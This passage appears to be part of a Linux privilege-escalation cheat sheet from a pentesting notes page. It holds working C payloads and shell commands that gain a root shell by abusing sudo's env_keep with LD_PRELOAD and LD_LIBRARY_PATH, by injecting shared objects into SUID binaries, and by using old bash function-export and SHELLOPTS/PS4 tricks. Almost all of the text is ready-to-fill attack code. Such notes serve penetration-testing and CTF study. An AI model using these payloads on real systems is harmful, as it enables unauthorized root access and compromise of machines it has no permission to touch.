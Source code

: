             void _init() {
                unsetenv("LD_PRELOAD");
                setresuid(0,0,0);
                system("/bin/bash -p");
            }

            ```
        - `gcc -fPIC -shared -nostartfiles -o preload.so preload.c`
        - `sudo LD_PRELOAD=/tmp/preload.so {sudo_can_execute_file}`
    -  If `env_keep` have `LD_LIBRARY_PATH`
        - `ldd {sudo_can_execute_file}` Find program library
        - library_path.c
            ```c=
            #include <stdio.h>
            #include <stdlib.h>

            static void hijack() __attribute__((constructor));

            void hijack() {
                unsetenv("LD_LIBRARY_PATH");
                setresuid(0,0,0);
                system("/bin/bash -p");
            }

            ```
        - `gcc -o {library_name} -shared -fPIC library_path.c`
        - `sudo LD_LIBRARY_PATH=/tmp {sudo_can_execute_file}`

-----

#### SUID / SGID

- Shared Object Injection
    - `strace {file} 2>&1 | grep -iE "open|access|no such file"` Find the found library
    - libcalc.c
      ```c=
      #include <stdio.h>
      #include <stdlib.h>

      static void inject() __attribute__((constructor));

      void inject() {
          setuid(0);
          system("/bin/bash -p");
      }
      ```
    - `gcc -shared -fPIC -o {hijacking_library} libcalc.c`
    - Run SUID file
- Abusing Shell Features
    - `/bin/bash --version`
        - If bash version < `4.2-048`
            - `function {hijacking_file} { /bin/bash -p; }`
            - `export -f {hijacking_file}`
            - Run SUID file
        - If bash version < `4.4`
            - `env -i SHELLOPTS=xtrace PS4='$(cp /bin/bash /tmp/bash; chmod +xs /tmp/bash)' {SUID_file}`
            - Run `/tmp/bash -p`
